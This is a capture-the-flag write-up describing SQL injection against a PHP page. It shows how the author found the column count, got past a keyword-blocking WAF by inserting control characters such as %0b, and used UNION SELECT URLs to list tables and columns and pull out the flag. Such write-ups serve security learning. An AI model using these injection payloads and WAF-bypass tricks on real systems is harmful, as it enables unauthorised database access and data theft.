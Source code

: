 ```yaml
---
layout: post
title: Simplesqlin
date: '2017-03-01'
author: Hland
tags:
- CTF
- SQLi
---
```


The server runs `openresty/1.11.2.2` according to the response headers. 

Injection point is here:
`http://202.120.7.203/index.php?id=1*`

We can add or subtract or multiply numbers..

`http://202.120.7.203/index.php?id=2-1`
`http://202.120.7.203/index.php?id=2%2b1`
`http://202.120.7.203/index.php?id=2*1`


By doing `order by` we find the column number, which is 3. `order by 4` gives a 500 error:

`http://202.120.7.203/index.php?id=1%20order%20by%203--+`


Anything else so far results in 500 errors.
There is a WAF blocking certain keywords. List of blocked keywords:
* `SELECT`
* `FROM`
* `WHERE`
* `SLEEP`


We can bypass the WAF by inserting a control character inside the keywords. Here we used `%0b` which is vertical tabulation.

`http://202.120.7.203/index.php?id=2 uni%0bon+se%0blect 1,"a",3 order by 1--+`

Other control characters that work in this case are:
* `%0c`
* `%0E`
* `%0F`
* `%10 - %1f`

So the WAF is relatively easily bypassed.

Now we need to find the table in which the flag is stored. Because I suck at remembering Mysql special tables and such I used a resource like this:

[MySQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

Then we do a query like this:

```
http://202.120.7.203/index.php?id=2 uni%0bon+se%1flect table_schema,table_name,1 FR%0bOM information_schema.tables WHE%0bRE table_schema != 'mysql' AND table_schema != 'information_schema' order by 3--+
```

To find that there is a table called `flag`, duh.

And we can also get the column name in a similar fashion:

```
http://202.120.7.203/index.php?id=2 uni%0bon+se%1flect table_schema,table_name,column_name FR%0bOM information_schema.columns WHE%0bRE table_schema != 'mysql' AND table_schema != 'information_schema' order by 3 LIMIT 1 OFFSET 1--+
```


And then finally we can get the flag by doing this query:

```
http://202.120.7.203/index.php?id=2 uni%0bon+se%1flect flag,1,2 FR%0bOM flag order by 3--+
```


```
flag{W4f_bY_paSS_f0R_CI}
```
